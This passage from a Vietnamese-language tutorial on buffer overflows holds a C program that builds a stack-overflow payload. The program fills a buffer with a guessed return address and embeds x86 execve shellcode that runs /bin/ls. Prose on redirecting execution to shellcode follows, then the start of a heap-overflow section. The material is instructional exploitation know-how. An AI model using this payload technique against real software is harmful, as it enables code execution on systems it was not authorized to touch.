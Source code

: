 ```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv)
{
	char large_string[128];
	long *long_ptr = (long *) large_string;
	int i;
	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/ls";

	for (i = 0; i < 32; i++)
		*(long_ptr + i) = (int) strtoul(argv[1], NULL, 16);

	for (i = 0; i < (int) strlen(shellcode); i++)
		large_string[i] = shellcode[i];

	printf("%s", large_string);
	return 0;
}
```
<div style="text-align: justify; text-indent: 2em;">
Bây giờ tất cả những gì chúng ta phải làm là thử lần đầu tiên để khám phá địa chỉ bộ đệm tốt, sau đó chúng ta sẽ có thể chạy chương trình ls:
</div>

<div style="text-align: justify; text-indent: 2em;">
Khả năng chạy mã mới này minh họa cho nhiều phương pháp có sẵn để phá vỡ ngăn xếp.
</div>

<div style="text-align: justify; text-indent: 2em;">
Phần này trình bày nhiều cách khác nhau để làm hỏng ngăn xếp; sự khác biệt chủ yếu dựa vào phương pháp được sử dụng để truyền shellcode cho chương trình, nhưng mục đích luôn giống nhau: ghi đè địa chỉ trả về và khiến nó trỏ đến shellcode mong muốn. Chúng ta sẽ thấy trong chương tiếp theo cách có thể làm hỏng heap và vô số khả năng mà nó mang lại.
</div>

## Tràn Heap

<div style="text-align: justify; text-indent: 2em;">
Nếu chúng ta xem xét các địa chỉ thấp nhất của một tiến trình được tải trong bộ nhớ, chúng ta sẽ thấy các phần sau:
</div>

- .text: chứa mã của tiến trình
- .data: chứa dữ liệu đã được khởi tạo (biến toàn cục đã được khởi tạo hoặc biến cục bộ đã được khởi tạo, được đặt trước bởi từ khóa static)
- .bss: chứa dữ liệu chưa được khởi tạo (biến toàn cục chưa được khởi tạo hoặc biến cục bộ chưa được khởi tạo
được đặt trước bởi từ khóa static)
- heap: chứa bộ nhớ được cấp phát động tại thời điểm chạy
